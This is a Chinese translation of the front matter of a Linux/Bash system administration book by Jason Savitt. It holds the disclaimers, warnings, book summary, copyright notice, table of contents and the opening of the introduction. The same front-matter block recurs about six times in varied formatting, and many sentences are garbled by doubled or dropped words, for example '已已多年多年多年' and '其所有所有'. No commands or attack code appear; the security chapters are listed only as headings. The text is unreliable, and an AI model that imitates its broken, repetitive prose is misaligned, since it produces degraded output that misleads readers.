**封面艺术归属，Linux 吉祥物鹅 Tux** Larry Ewing (`lewing@isc.tamu.edu`) 和 GIMP 软件

Jason Savitt 出版社

`www.jasonsavitt.info`

ISBN

第一版

## 责任限制/免责声明
作者对本作品内容的内容的准确性或完整性不作任何陈述或保证，并明确放弃所有保证，包括但不限于对特定用途的适用性的保证。销售或促销材料均不得创建或扩展任何保证。书中包含的建议和策略可能不适用于每种情况。本书的销售基于以下理解：出版者并未从事法律、会计或其他专业服务。如果需要专业协助，应寻求能力专业人士的服务。出版者和作者均不对由此产生的损害承担责任。书中提及的某个机构或网站作为引用和/或进一步信息的潜在来源，这一事实，并不意味着作者或出版者认可该机构或网站可能提供的信息或其可能做出的建议。此外，读者应注意，书中列出的互联网网站在本书编写期间到你阅读期间可能已经发生了变化或消失。

## 信息、警告与风险
在遵循本书中的任何建议之前，请务必确保你已阅读并理解以下警告：书中提到的所有商标均归其所有所有。

书中提到的任何产品均不是对个人产品或其制造商的推荐或背书。

使用本书中的内容的风险自担。作者或其出版者（以及任何其他相关方）对遵循书中提供的信息而发生的问题或损坏不承担任何责任。发生任何问题的所有责任均由执行操作的读者承担。

本书的某些章节包含高级技巧，关于更改操作系统及其应用程序的关键系统配置区域，如果修改不当可能会导致其无法正常工作。

在处理任何电气设备时要加小心，检查计算机或外围设备的手册以获取妥善处理设备的特定说明。

遵循本书中的建议可能会导致设备保失效。在继续之前，务必检查制造商的建议。在开始工作之前，务必确保对计算机数据有良好的备份。在触摸内部任何电子元件之前，务必断开电脑的电源以及连接到它的任何设备。

## 勘误、更新与书籍支持
我们尽力确保本书的准确性并。你可以通过 `http://www.jasonsavitt.info/linuxsecrets/errata` 以提交的勘误列表及其相关更正的形式访问本书的更新。如果你发现了未列出的错误，请发送电子邮件至 `support@jasonsavitt.info`。请注意，微软软件和硬件的产品支持不通过之前的地址提供。如需微软软件或硬件的帮助，请访问 `http://support.microsoft.com`。

## 我们想听听你的意见
你的满意度是我们的最高优先级，你的反馈是我们最宝贵的资产。请告诉我们你对这本书的意见：`feedback@jasonsavitt.info`。在邮件的主题中，输入“Feedback Linux Command Tips”以便它直接发送给我。

# Jason Savitt
# Bash 系统参考
(2019年版)
# 高级用户指南：
Linux 技巧、
破解与秘密


# Jason Savitt
# Bash 系统参考
# 高级用户指南：Linux 技巧、破解与秘密
## [第1卷]

### 高级用户指南：Linux 技巧，破解与秘密 (2019年版)
### 终极版 [第1卷 & 第2卷]

通过实例学习 Linux：管理员命令、指南与参考 适用于：初级/中/高级人员


## 书籍摘要：

如今 Linux 运行在各种设备上，从微小的手表、IoT 设备（如树莓派和其他单板计算机）、智能手机、笔记本电脑、台式电脑、服务器、网络设备，甚至是大型机。许多云服务也使用 Linux 在亚马逊云服务 `AWS`、Microsoft Azure 或 Google Cloud 上进行管理或运行基础设施。

本书共有三个版本，第1卷是 `Bash` 系统管理版。还有第2卷，即 `Bash` 系统参考版。此外还有一个终极版，它包含了第1卷和第2卷的所有内容。

第1卷——`Bash` 系统管理版适用于想要学习 Linux（为了工作面试 [例如 Linux 系统管理员或工程师、DEVOPS、DEVSECOPS 等] 或创建 IoT 设备）或已已多年多年多年的人士。本书专为所有想要开始学习并掌握 Linux 操作系统和 `Bash` Shell 的人员编写，同时也学习如何利用高级功能。本书旨在帮助你快速上手，或在不浪费时间的情况下提升你现有的技能。

第2卷即 `Bash` 系统参考版，包含了数百个命令的参考、示例、技巧和注释，以让你对所涵盖的命令或主题有额外的见解。本书还包含了一份超过 600 多个 Linux 命令的全面快速参考（附示例）。此外，还包含了针对若干高级主题的多个 Linux 及相关快速入门指南，包括应用程序、网络主题、`Bash` 键盘快捷键等许多更多内容。

**涵盖主题：** Linux 操作系统、Linux 命令、`Bash` 单行命令和脚本。如何安装：Apache Web 服务器、`MySQL`、`PHPMyAdmin` 和 `PHP`。如何安装和管理 `Docker` 以及 `Git`。系统管理主题包括：故障排除、网络等。安全主题包括：防火墙管理概述，以及如何锁定你的 Linux 操作系统。

## 版权

Copyright © 2018 by Jason Savitt

保留所有权利。未经出版者事先书面许可，本出版物不得以任何形式或通过任何手段复制、发行或传输，包括复印、录制或其他电子或机械方法，但批判性评论中包含的简短引用以及版权法允许的某些非商业用途除外。如需许可，请写信至下方地址的出版者，抬头为“权限协调员收收”。

书中提到的所有商标均归其所有所有。

**封面艺术归属，Linux 吉祥物鹅 Tux** Larry Ewing (`lewing@isc.tamu.edu`) 和 GIMP 软件

Jason Savitt 出版社

`www.jasonsavitt.info`

ISBN

第一版

## 责任限制/免责声明

作者对本作品内容的内容的准确性或完整性不作任何陈述或保证，并明确放弃所有保证，包括但不限于对特定用途的适用性的保证。销售或促销材料均不得创建或扩展任何保证。书中包含的建议和策略可能不适用于每种情况。本书的销售基于以下理解：出版者并未从事法律、会计或其他专业服务。如果需要专业协助，应寻求能力专业人士的服务。出版者和作者均不对由此产生的损害承担责任。书中提及的某个机构或网站作为引用和/或进一步信息的潜在来源，这一事实，并不意味着作者或出版者认可该机构或网站可能提供的信息或其可能做出的建议。此外，读者应注意，书中列出的互联网网站在本书编写期间到你阅读期间可能已经发生了变化或消失。

## 信息、警告与风险

在遵循本书中的任何建议之前，请务必确保你已阅读并理解以下警告：书中提到的所有商标均归其所有所有。

书中提到的任何产品均不是对个人产品或其制造商的推荐或背书。

使用本书中的内容的风险自担。作者或其出版者（以及任何其他相关方）对遵循书中提供的信息而发生的问题或损坏不承担任何责任。发生任何问题的所有责任均由执行操作的读者承担。

本书的某些章节包含高级技巧，关于更改操作系统及其应用程序的关键系统配置区域，如果修改不当可能会导致其无法正常工作。

在处理任何电气设备时要加小心，检查计算机或外围设备的手册以获取妥善处理设备的特定说明。

遵循本书中的建议可能会导致设备保失效。在继续之前，务必检查制造商的建议。在开始工作之前，务必确保对计算机数据有良好的备份。在触摸内部任何电子元件之前，务必断开电脑的电源以及连接到它的任何设备。

## 勘误、更新与书籍支持

我们尽力确保本书的准确性并。你可以通过 `http://www.jasonsavitt.info/linuxsecrets/errata` 以提交的勘误列表及其相关更正的形式访问本书的更新。如果你发现了未列出的错误，请发送电子邮件至 `support@jasonsavitt.info`。请注意，微软软件和硬件的产品支持不通过之前的地址提供。如需微软软件或硬件的帮助，请访问 `http://support.microsoft.com`。

## 我们想听听你的意见

你的满意度是我们的最高优先级，你的反馈是我们最宝贵的资产。请告诉我们你对这本书的意见：`feedback@jasonsavitt.info`。在邮件的主题中，输入“Feedback Linux Command Tips”以便它直接发送给我。


# Jason Savitt
# Bash 系统参考
## 2019年版
## 高级用户指南
### Linux 技巧、破解与秘密
#### 第1卷

***高级用户指南：*** ***Linux 技巧，***
***破解与秘密*** ***(2019年版)***
***终极版*** ***[第1卷 & 第2卷]***

(通过实例学习 Linux：*管理员命令、指南与**参考* 适用于：初级/中/高级人员)


**书籍摘要：**

如今 Linux 运行在各种设备上，从微小的手表、IoT 设备（如树莓派和其他单板计算机）、智能手机、笔记本电脑、台式电脑、服务器、网络设备，甚至是大型机。许多云服务也使用 Linux 在亚马逊云服务 (AWS)、Microsoft Azure 或 Google Cloud 上进行管理或运行基础设施。

本书共有三个版本，第1卷是 **Bash 系统管理**版。还有第2卷，即 **Bash 系统参考**版。此外还有一个**终极版**，它包含了第1卷和第2卷的所有内容。

第1卷——**Bash 系统管理**版适用于想要学习 Linux（为了工作面试 [例如 Linux 系统管理员或工程师、DEVOPS、DEVSECOPS 等] 或创建 IoT 设备）或已已多年多年多年的人士。本书专为所有想要开始学习并掌握 Linux 操作系统和 Bash Shell 的人员编写，同时也学习如何利用高级功能。本书旨在帮助你快速上手，或在不浪费时间的情况下提升你现有的技能。

第2卷即 **Bash 系统参考**版，包含了数百个命令的参考、示例、技巧和注释，以让你对所涵盖的命令或主题有额外的见解。本书还包含了一份超过 600 多个 Linux 命令的全面快速参考（附示例）。此外，还包含了针对若干高级主题的多个 Linux 及相关快速入门指南，包括应用程序、网络主题、Bash 键盘快捷键等许多更多内容。

**涵盖主题：** Linux 操作系统、Linux 命令、Bash 单行命令和脚本。如何安装：Apache Web 服务器、MySQL、PHPMyAdmin 和 PHP。如何安装和管理 Docker 以及 Git。系统管理主题包括：故障排除、网络等。安全主题包括：防火墙管理概述，以及如何锁定你的 Linux 操作系统。

## 版权

Copyright © 2018 by Jason Savitt

保留所有权利。未经出版者事先书面许可，本出版物不得以任何形式或通过任何手段复制、发行或传输，包括复印、录制或其他电子或机械方法，但批判性评论中包含的简短引用以及版权法允许的某些非商业用途除外。如需许可，请写信至下方地址的出版者，抬头为“权限协调员收收”。

书中提到的所有商标均归其所有所有。

**封面艺术归属，Linux 吉祥物鹅 Tux** Larry Ewing (lewing@isc.tamu.edu) 和 GIMP 软件

Jason Savitt 出版社

www.jasonsavitt.info

ISBN

第一版

**责任限制/免责声明** 作者对本作品内容的内容的准确性或完整性不作任何陈述或保证，并明确放弃所有保证，包括但不限于对特定用途的适用性的保证。销售或促销材料均不得创建或扩展任何保证。书中包含的建议和策略可能不适用于每种情况。本书的销售基于以下理解：出版者并未从事法律、会计或其他专业服务。如果需要专业协助，应寻求能力专业人士的服务。出版者和作者均不对由此产生的损害承担责任。书中提及的某个机构或网站作为引用和/或进一步信息的潜在来源，这一事实，并不意味着作者或出版者认可该机构或网站可能提供的信息或其可能做出的建议。此外，读者应注意，书中列出的互联网网站在本书编写期间到你阅读期间可能已经发生了变化或消失。

## 信息、警告与风险

在遵循本书中的任何建议之前，请务必确保你已阅读并理解以下警告：书中提到的所有商标均归其所有所有。

书中提到的任何产品均不是对个人产品或其制造商的推荐或背书。

使用本书中的内容的风险自担。作者或其出版者（以及任何其他相关方）对遵循书中提供的信息而发生的问题或损坏不承担任何责任。发生任何问题的所有责任均由执行操作的读者承担。

本书的某些章节包含高级技巧，关于更改操作系统及其应用程序的关键系统配置区域，如果修改不当可能会导致其无法正常工作。

在处理任何电气设备时要加小心，检查计算机或外围设备的手册以获取妥善处理设备的特定说明。

遵循本书中的建议可能会导致设备保失效。在继续之前，务必检查制造商的建议。在开始工作之前，务必确保对计算机数据有良好的备份。在触摸内部任何电子元件之前，务必断开电脑的电源以及连接到它的任何设备。

## 勘误、更新与书籍支持

我们尽力确保本书的准确性并。你可以通过 `http://www.jasonsavitt.info/linuxsecrets/errata` 以提交的勘误列表及其相关更正的形式访问本书的更新。如果你发现了未列出的错误，请发送电子邮件至 `support@jasonsavitt.info`。请注意，微软软件和硬件的产品支持不通过之前的地址提供。如需微软软件或硬件的帮助，请访问 `http://support.microsoft.com`。

## 我们想听听你的意见

你的满意度是我们的最高优先级，你的反馈是我们最宝贵的资产。请告诉我们你对这本书的意见：`feedback@jasonsavitt.info`。在邮件的主题中，输入“`Feedback Linux Command Tips`”以便它直接发送给我。


# Jason Savitt
# Bash 系统参考
(2019年版)
# 高级用户指南：
Linux 技巧、
破解与秘密
[第1卷]

***高级用户指南：*** ***Linux 技巧，***
***破解与秘密*** ***(2019年版)***
***终极版*** ***[第1卷 & 第2卷]***
(通过实例学习 Linux：*管理员命令、指南与**参考* 适用于：初级/中/高级人员)


**书籍摘要：**
如今 Linux 运行在各种设备上，从微小的手表、IoT 设备（如树莓派和其他单板计算机）、智能手机、笔记本电脑、台式电脑、服务器、网络设备，甚至是大型机。许多云服务也使用 Linux 在亚马逊云服务 (AWS)、Microsoft Azure 或 Google Cloud 上进行管理或运行基础设施。

本书共有三个版本，第1卷是 `Bash 系统管理`版。还有第2卷，即 `Bash 系统参考`版。此外还有一个`终极版`，它包含了第1卷和第2卷的所有内容。

第1卷——`Bash 系统管理`版适用于想要学习 Linux（为了工作面试 [例如 Linux 系统管理员或工程师、DEVOPS、DEVSECOPS 等] 或创建 IoT 设备）或已已多年多年多年的人士。本书专为所有想要开始学习并掌握 Linux 操作系统和 Bash Shell 的人员编写，同时也学习如何利用高级功能。本书旨在帮助你快速上手，或在不浪费时间的情况下提升你现有的技能。

第2卷即 `Bash 系统参考`版，包含了数百个命令的参考、示例、技巧和注释，以让你对所涵盖的命令或主题有额外的见解。本书还包含了一份超过 600 多个 Linux 命令的全面快速参考（附示例）。此外，还包含了针对若干高级主题的多个 Linux 及相关快速入门指南，包括应用程序、网络主题、`Bash` 键盘快捷键等许多更多内容。

**涵盖主题：** Linux 操作系统、Linux 命令、`Bash` 单行命令和脚本。如何安装：Apache Web 服务器、`MySQL`、`PHPMyAdmin` 和 `PHP`。如何安装和管理 `Docker` 以及 `Git`。系统管理主题包括：故障排除、网络等。安全主题包括：防火墙管理概述，以及如何锁定你的 Linux 操作系统。

## 版权

Copyright © 2018 by Jason Savitt

保留所有权利。未经出版者事先书面许可，本出版物不得以任何形式或通过任何手段复制、发行或传输，包括复印、录制或其他电子或机械方法，但批判性评论中包含的简短引用以及版权法允许的某些非商业用途除外。如需许可，请写信至下方地址的出版者，抬头为“权限协调员收收”。

书中提到的所有商标均归其所有所有。

**封面艺术归属，Linux 吉祥物鹅 Tux** Larry Ewing (`lewing@isc.tamu.edu`) 和 `GIMP` 软件

Jason Savitt 出版社

`www.jasonsavitt.info`

ISBN

第一版

## 责任限制/免责声明
作者对本作品内容的内容的准确性或完整性不作任何陈述或保证，并明确放弃所有保证，包括但不限于对特定用途的适用性的保证。销售或促销材料均不得创建或扩展任何保证。书中包含的建议和策略可能不适用于每种情况。本书的销售基于以下理解：出版者并未从事法律、会计或其他专业服务。如果需要专业协助，应寻求能力专业人士的服务。出版者和作者均不对由此产生的损害承担责任。书中提及的某个机构或网站作为引用和/或进一步信息的潜在来源，这一事实，并不意味着作者或出版者认可该机构或网站可能提供的信息或其可能做出的建议。此外，读者应注意，书中列出的互联网网站在本书编写期间到你阅读期间可能已经发生了变化或消失。

## 信息、警告与风险

在遵循本书中的任何建议之前，请务必确保你已阅读并理解以下警告：书中提到的所有商标均归其所有所有。

书中提到的任何产品均不是对个人产品或其制造商的推荐或背书。

使用本书中的内容的风险自担。作者或其出版者（以及任何其他相关方）对遵循书中提供的信息而发生的问题或损坏不承担任何责任。发生任何问题的所有责任均由执行操作的读者承担。

本书的某些章节包含高级技巧，关于更改操作系统及其应用程序的关键系统配置区域，如果修改不当可能会导致其无法正常工作。

在处理任何电气设备时要加小心，检查计算机或外围设备的手册以获取妥善处理设备的特定说明。

遵循本书中的建议可能会导致设备保失效。在继续之前，务必检查制造商的建议。在开始工作之前，务必确保对计算机数据有良好的备份。在触摸内部任何电子元件之前，务必断开电脑的电源以及连接到它的任何设备。

## 勘误、更新与书籍支持

我们尽力确保本书的准确性并。你可以通过 `http://www.jasonsavitt.info/linuxsecrets/errata` 以提交的勘误列表及其相关更正的形式访问本书的更新。如果你发现了未列出的错误，请发送电子邮件至 `support@jasonsavitt.info`。请注意，微软软件和硬件的产品支持不通过之前的地址提供。如需微软软件或硬件的帮助，请访问 `http://support.microsoft.com`。

## 我们想听听你的意见

你的满意度是我们的最高优先级，你的反馈是我们最宝贵的资产。请告诉我们你对这本书的意见：`feedback@jasonsavitt.info`。在邮件的主题中，输入“`Feedback Linux Command Tips`”以便它直接发送给我。

第2卷即 `Bash 系统参考`版，包含了数百个命令的参考、示例、技巧和注释，以让你对所涵盖的命令或主题有额外的见解。本书还包含了一份超过 600 多个 Linux 命令的全面快速参考（附示例）。此外，还包含了针对若干高级主题的多个 Linux 及相关快速入门指南，包括应用程序、网络主题、`Bash` 键盘快捷键等许多更多内容。

**涵盖主题：** Linux 操作系统、Linux 命令、`Bash` 单行命令和脚本。如何安装：Apache Web 服务器、`MySQL`、`PHPMyAdmin` 和 `PHP`。如何安装和管理 `Docker` 以及 `Git`。系统管理主题包括：故障排除、网络等。安全主题包括：防火墙管理概述，以及如何锁定你的 Linux 操作系统。

版权

Copyright © 2018 by Jason Savitt

保留所有权利。未经出版者事先书面许可，本出版物不得以任何形式或通过任何手段复制、发行或传输，包括复印、录制或其他电子或机械方法，但批判性评论中包含的简短引用以及版权法允许的某些非商业用途除外。如需许可，请写信至下方地址的出版者，抬头为“权限协调员收收”。

书中提到的所有商标均归其所有所有。

**封面艺术归属，Linux 吉祥物鹅 Tux** Larry Ewing (`lewing@isc.tamu.edu`) 和 `GIMP` 软件

Jason Savitt 出版社

`www.jasonsavitt.info`

ISBN

第一版

**责任限制/免责声明** 作者对本作品内容的内容的准确性或完整性不作任何陈述或保证，并明确放弃所有保证，包括但不限于对特定用途的适用性的保证。销售或促销材料均不得创建或扩展任何保证。书中包含的建议和策略可能不适用于每种情况。本书的销售基于以下理解：出版者并未从事法律、会计或其他专业服务。如果需要专业协助，应寻求能力专业人士的服务。出版者和作者均不对由此产生的损害承担责任。书中提及的某个机构或网站作为引用和/或进一步信息的潜在来源，这一事实，并不意味着作者或出版者认可该机构或网站可能提供的信息或其可能做出的建议。此外，读者应注意，书中列出的互联网网站在本书编写期间到你阅读期间可能已经发生了变化或消失。

信息、警告与风险

在遵循本书中的任何建议之前，请务必确保你已阅读并理解以下警告：书中提到的所有商标均归其所有所有。

书中提到的任何产品均不是对个人产品或其制造商的推荐或背书。

使用本书中的内容的风险自担。作者或其出版者（以及任何其他相关方）对遵循书中提供的信息而发生的问题或损坏不承担任何责任。发生任何问题的所有责任均由执行操作的读者承担。

本书的某些章节包含高级技巧，关于更改操作系统及其应用程序的关键系统配置区域，如果修改不当可能会导致其无法正常工作。

在处理任何电气设备时要加小心，检查计算机或外围设备的手册以获取妥善处理设备的特定说明。

遵循本书中的建议可能会导致设备保失效。在继续之前，务必检查制造商的建议。在开始工作之前，务必确保对计算机数据有良好的备份。在触摸内部任何电子元件之前，务必断开电脑的电源以及连接到它的任何设备。

勘误、更新与书籍支持

我们尽力确保本书的准确性并。你可以通过 `http://www.jasonsavitt.info/linuxsecrets/errata` 以提交的勘误列表及其相关更正的形式访问本书的更新。如果你发现了未列出的错误，请发送电子邮件至 `support@jasonsavitt.info`。请注意，微软软件和硬件的产品支持不通过之前的地址提供。如需微软软件或硬件的帮助，请访问 `http://support.microsoft.com`。

我们想听听你的意见


# Jason Savitt
# Bash 系统参考
## 2019年版
## 高级用户指南：Linux 技巧、破解与秘密
### [第1卷]

***高级用户指南：*** ***Linux 技巧，***
***破解与秘密*** ***(2019年版)***

***终极版*** ***[第1卷 & 第2卷]***

(通过实例学习 Linux：*管理员命令、指南与**参考* 适用于：初级/中/高级人员)


**书籍摘要：**

如今 Linux 运行在各种设备上，从微小的手表、IoT 设备（如树莓派和其他单板计算机）、智能手机、笔记本电脑、台式电脑、服务器、网络设备，甚至是大型机。许多云服务也使用 Linux 在亚马逊云服务 `AWS`、`Microsoft Azure` 或 `Google Cloud` 上进行管理或运行基础设施。

本书共有三个版本，第1卷是 **Bash 系统管理**版。还有第2卷，即 **Bash 系统参考**版。此外还有一个**终极版**，它包含了第1卷和第2卷的所有内容。

第1卷——**Bash 系统管理**版适用于想要学习 Linux（为了工作面试 [例如 Linux 系统管理员或工程师、DEVOPS、DEVSECOPS 等] 或创建 IoT 设备）或已已多年多年多年的人士。本书专为所有想要开始学习并掌握 Linux 操作系统和 Bash Shell 的人员编写，同时也学习如何利用高级功能。本书旨在帮助你快速上手，或在不浪费时间的情况下提升你现有的技能。

第2卷即 **Bash 系统参考**版，包含了数百个命令的参考、示例、技巧和注释，以让你对所涵盖的命令或主题有额外的见解。本书还包含了一份超过 600 多个 Linux 命令的全面快速参考（附示例）。此外，还包含了针对若干高级主题的多个 Linux 及相关快速入门指南，包括应用程序、网络主题、Bash 键盘快捷键等许多更多内容。

**涵盖主题：** Linux 操作系统、Linux 命令、Bash 单行命令和脚本。如何安装：Apache Web 服务器、MySQL、PHPMyAdmin 和 PHP。如何安装和管理 Docker 以及 Git。系统管理主题包括：故障排除、网络等。安全主题包括：防火墙管理概述，以及如何锁定你的 Linux 操作系统。

## 版权

Copyright © 2018 by Jason Savitt

保留所有权利。未经出版者事先书面许可，本出版物不得以任何形式或通过任何手段复制、发行或传输，包括复印、录制或其他电子或机械方法，但批判性评论中包含的简短引用以及版权法允许的某些非商业用途除外。如需许可，请写信至下方地址的出版者，抬头为“权限协调员收收”。

书中提到的所有商标均归其所有所有。

**封面艺术归属，Linux 吉祥物鹅 Tux** Larry Ewing (`lewing@isc.tamu.edu`) 和 GIMP 软件

Jason Savitt 出版社

`www.jasonsavitt.info`

ISBN

第一版

**责任限制/免责声明** 作者对本作品内容的内容的准确性或完整性不作任何陈述或保证，并明确放弃所有保证，包括但不限于对特定用途的适用性的保证。销售或促销材料均不得创建或扩展任何保证。书中包含的建议和策略可能不适用于每种情况。本书的销售基于以下理解：出版者并未从事法律、会计或其他专业服务。如果需要专业协助，应寻求能力专业人士的服务。出版者和作者均不对由此产生的损害承担责任。书中提及的某个机构或网站作为引用和/或进一步信息的潜在来源，这一事实，并不意味着作者或出版者认可该机构或网站可能提供的信息或其可能做出的建议。此外，读者应注意，书中列出的互联网网站在本书编写期间到你阅读期间可能已经发生了变化或消失。

## 信息、警告与风险

在遵循本书中的任何建议之前，请务必确保你已阅读并理解以下警告：书中提到的所有商标均归其所有所有。

书中提到的任何产品均不是对个人产品或其制造商的推荐或背书。

使用本书中的内容的风险自担。作者或其出版者（以及任何其他相关方）对遵循书中提供的信息而发生的问题或损坏不承担任何责任。发生任何问题的所有责任均由执行操作的读者承担。

本书的某些章节包含高级技巧，关于更改操作系统及其应用程序的关键系统配置区域，如果修改不当可能会导致其无法正常工作。

在处理任何电气设备时要加小心，检查计算机或外围设备的手册以获取妥善处理设备的特定说明。

遵循本书中的建议可能会导致设备保失效。在继续之前，务必检查制造商的建议。在开始工作之前，务必确保对计算机数据有良好的备份。在触摸内部任何电子元件之前，务必断开电脑的电源以及连接到它的任何设备。

## 勘误、更新与书籍支持

我们尽力确保本书的准确性并。你可以通过 `http://www.jasonsavitt.info/linuxsecrets/errata` 以提交的勘误列表及其相关更正的形式访问本书的更新。如果你发现了未列出的错误，请发送电子邮件至 `support@jasonsavitt.info`。请注意，微软软件和硬件的产品支持不通过之前的地址提供。如需微软软件或硬件的帮助，请访问 `http://support.microsoft.com`。

## 我们想听听你的意见

你的满意度是我们的最高优先级，你的反馈是我们最宝贵的资产。请告诉我们你对这本书的意见：`feedback@jasonsavitt.info`。在邮件的主题中，输入 `Feedback Linux Command Tips` 以便它直接发送给我。


# Jason Savitt
# Bash 系统参考
## 2019年版
## 高级用户指南
### Linux 技巧、破解与秘密
#### 第1卷

***高级用户指南：*** ***Linux 技巧，*** ***破解与秘密*** ***(2019年版)*** ***终极版*** ***[第1卷 & 第2卷]*** (通过实例学习 Linux：*管理员命令、指南与**参考* 适用于：初级/中/高级人员)


**书籍摘要：**
如今 Linux 运行在各种设备上，从微小的手表、IoT 设备（如树莓派和其他单板计算机）、智能手机、笔记本电脑、台式电脑、服务器、网络设备，甚至是大型机。许多云服务也使用 Linux 在亚马逊云服务 `AWS`、`Microsoft Azure` 或 `Google Cloud` 上进行管理或运行基础设施。

本书共有三个版本，第1卷是 **Bash 系统管理**版。还有第2卷，即 **Bash 系统参考**版。此外还有一个**终极版**，它包含了第1卷和第2卷的所有内容。

第1卷——**Bash 系统管理**版适用于想要学习 Linux（为了工作面试 [例如 Linux 系统管理员或工程师、DEVOPS、DEVSECOPS 等] 或创建 IoT 设备）或已已多年多年多年的人士。本书专为所有想要开始学习并掌握 Linux 操作系统和 Bash Shell 的人员编写，同时也学习如何利用高级功能。本书旨在帮助你快速上手，或在不浪费时间的情况下提升你现有的技能。

第2卷即 **Bash 系统参考**版，包含了数百个命令的参考、示例、技巧和注释，以让你对所涵盖的命令或主题有额外的见解。本书还包含了一份超过 600 多个 Linux 命令的全面快速参考（附示例）。此外，还包含了针对若干高级主题的多个 Linux 及相关快速入门指南，包括应用程序、网络主题、Bash 键盘快捷键等许多更多内容。

**涵盖主题：** Linux 操作系统、Linux 命令、Bash 单行命令和脚本。如何安装：Apache Web 服务器、`MySQL`、`PHPMyAdmin` 和 `PHP`。如何安装和管理 `Docker` 以及 `Git`。系统管理主题包括：故障排除、网络等。安全主题包括：防火墙管理概述，以及如何锁定你的 Linux 操作系统。

版权
Copyright © 2018 by Jason Savitt
保留所有权利。未经出版者事先书面许可，本出版物不得以任何形式或通过任何手段复制、发行或传输，包括复印、录制或其他电子或机械方法，但批判性评论中包含的简短引用以及版权法允许的某些非商业用途除外。如需许可，请写信至下方地址的出版者，抬头为“权限协调员收收”。

书中提到的所有商标均归其所有所有。
**封面艺术归属，Linux 吉祥物鹅 Tux** Larry Ewing (`lewing@isc.tamu.edu`) 和 `GIMP` 软件

Jason Savitt 出版社
www.jasonsavitt.info

ISBN
第一版

## 责任限制/免责声明
作者对本作品内容的内容的准确性或完整性不作任何陈述或保证，并明确放弃所有保证，包括但不限于对特定用途的适用性的保证。销售或促销材料均不得创建或扩展任何保证。书中包含的建议和策略可能不适用于每种情况。本书的销售基于以下理解：出版者并未从事法律、会计或其他专业服务。如果需要专业协助，应寻求能力专业人士的服务。出版者和作者均不对由此产生的损害承担责任。书中提及的某个机构或网站作为引用和/或进一步信息的潜在来源，这一事实，并不意味着作者或出版者认可该机构或网站可能提供的信息或其可能做出的建议。此外，读者应注意，书中列出的互联网网站在本书编写期间到你阅读期间可能已经发生了变化或消失。

## 信息、警告与风险
在遵循本书中的任何建议之前，请务必确保你已阅读并理解以下警告：书中提到的所有商标均归其所有所有。

书中提到的任何产品均不是对个人产品或其制造商的推荐或背书。

使用本书中的内容的风险自担。作者或其出版者（以及任何其他相关方）对遵循书中提供的信息而发生的问题或损坏不承担任何责任。发生任何问题的所有责任均由执行操作的读者承担。

本书的某些章节包含高级技巧，关于更改操作系统及其应用程序的关键系统配置区域，如果修改不当可能会导致其无法正常工作。

在处理任何电气设备时要加小心，检查计算机或外围设备的手册以获取妥善处理设备的特定说明。

遵循本书中的建议可能会导致设备保失效。在继续之前，务必检查制造商的建议。在开始工作之前，务必确保对计算机数据有良好的备份。在触摸内部任何电子元件之前，务必断开电脑的电源以及连接到它的任何设备。

## 勘误、更新与书籍支持
我们尽力确保本书的准确性并。你可以通过 `http://www.jasonsavitt.info/linuxsecrets/errata` 以提交的勘误列表及其相关更正的形式访问本书的更新。如果你发现了未列出的错误，请发送电子邮件至 `support@jasonsavitt.info`。请注意，微软软件和硬件的产品支持不通过之前的地址提供。如需微软软件或硬件的帮助，请访问 `http://support.microsoft.com`。

## 我们想听听你的意见
你的满意度是我们的最高优先级，你的反馈是我们最宝贵的资产。请告诉我们你对这本书的意见：`feedback@jasonsavitt.info`。在邮件的主题中，输入“`Feedback Linux Command Tips`”以便它直接发送给我。

## 为代码编写注释

## 变量
- Shell 变量
- 环境变量
- 持久变量
- Shell vs 环境变量 vs 持久变量

### 字符串类型
- 字符串变量操作

### 向脚本传递参数

### 条件分支与循环
- 条件分支
- 循环
- 创建过程
- 退出状态码

## 我的第一个系统信息脚本

## 系统管理
- Linux 启动加载程序
- Runlevels Init（旧系统）
- Systemd Init（新系统）
- 管理服务
- 管理用户
- 管理管理员
- 用户通知
- 管理 Syslog
- 后台与前台作业
- 关机与重启

### 网络排除工具
- 已弃及替代工具
- 远程控制台与文件传输

### 包管理
- 更新系统
- 清理本地存储空间

## 硬件信息
- 电池状态与热温度
- Linux 诊断工具

## 任务调度
- NFS（网络文件系统）
- Samba 快速指南
- 安装 SSH 服务器

## `/PROC` 虚拟文件

### 使用 Git（初学者）
- 核心概念
- 仓库维护
- 有用技巧
- GIT 备查表

## 安装 L.A.M.P.


# 安装 Apache Web 服务器
- 修改防火墙
- 安装 MySQL 数据库
- 安装 PHP
- 安装 PHPMyAdmin
- 安全 phpMyAdmin 控制
- 安装 SSL 证书

## 安装 Docker（容器化）
- Docker vs 虚拟机架构
- 从官方 Docker 仓库安装 Docker
- 使用并测试 Docker 服务
- 启动 Docker 容器
- 管理 Docker 镜像与容器
- 提交 Docker 镜像
- 推送到 Docker 仓库
- Docker 命令（版本 18）

## 安全提示（系统锁定）
- 核心安全哲学
- 检查系统恶意软件
- 锁定系统的物理访问
- 数据分区
- 移除未使用的软件
- 监控连接
- 用户账户限制
- 禁用 X-Windows
- 锁定 SSH
- 禁用 Ctrl+Alt+Delete
- 监控空密码账户
- 保持系统更新
- 加固 CRONTAB
- 禁用 USB 驱动器
- 启用 SELinux
- 监控用户活动
- 监控日志文件
- 忽略 ICMP 或广播请求
- 漏洞扫描

### 杂技巧
- 防火墙管理
- 保存更改
- 让 IPTABLES 更加简单
- 高级防火墙操作
- 阻塞无效 TCP 数据包

### 存储管理
- 管理存储设备
- 持久挂载点
- 逻辑卷管理
- 准备第二个硬盘
- 创建启动 USB 盘
- 创建启动闪盘

### 趣味与幼稚（包括：彩蛋）
- 文字游戏
- 高级趣味
- 实验性趣味

## 致谢
- 关于作者
- 我出版的其他书籍

**第一卷**

***高级用户指南：Linux 技巧、黑客与秘密 [Bash 系统管理]***

## 引言

就像生活中的任何事情一样，你希望第一次使用某样东西时它就能正常工作。你不希望花费额外时间阅读手册来弄清楚它是如何运行的。

例如，当你买了一辆车时，大多数人并不关心这个或那个功能有多先进。你只想把钥匙插入点火开关像驾驶其他车辆一样开它。只有当你需要知道某些特定信息时，才会去查阅手册该特定信息。

这本书并不是并不是作为 Linux 的深度参考书，它是为了对几个 Linux 命令和工具提供简要介绍，并尝试提供它们如何工作的有用示例。意图在于演示 Linux 能为你做什么，而不是浪费你的时间给你大量你可能不会记得枯燥数据。

如果你需要关于某方面的更多信息，你可以利用已有的基础理解，对命令如何工作进行更深入调查。我总是发现，当我对任何事物拥有基础知识时，我通常知道去哪里寻找或问什么问题来获取需要的信息。正当我缺乏这些基础知识时，可能不知道从何开始，这会让事情变得困难得多。

网上或其他参考书中存在大量信息，对书中大多数主题的深度远超我的涵盖。尽管，我们大多数人没有时间或兴趣去阅读那些参考。

